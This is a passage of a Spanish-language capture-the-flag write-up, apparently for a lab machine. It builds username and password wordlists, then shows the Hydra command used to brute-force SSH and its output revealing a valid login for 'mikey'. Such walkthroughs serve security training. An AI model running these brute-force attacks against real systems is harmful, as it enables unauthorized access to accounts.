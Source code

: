 Ya con toda esta informacion vamos a crear un diccionario de usuarios y contraseñas para intentar tirar fuerza bruta por `SSH` con `hydra` a ver si hay suerte.

## Hydra

> users.txt

```
zero_day
hexhunter
bytebandit
codebreaker
trojanhorse
backdoor_bandit
mikey
```

En el listado de usuarios añadi `mikey` ya que es el unico correo que es diferente al del usuario propio.

> pass.txt

```
Zer0D@yH@ck
H3xHunt3r!
Byt3B@nd!t123
C0d3Br3@k!
Tr0j@nH0rse!
aze
mYd4rks1dEisH3re
```

Teniendo los listados vamos a utilizarlos de esta forma:

```shell
hydra -L users.txt -P pass.txt ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-05 06:17:20
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 49 tasks per 1 server, overall 49 tasks, 49 login tries (l:7/p:7), ~1 try per task
[DATA] attacking ssh://10.10.11.85:22/
[22][ssh] host: 10.10.11.85   login: mikey   password: mYd4rks1dEisH3re
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-05 06:17:28
```

Veremos que ha funcionado, por lo que vamos a entrar por `SSH`.
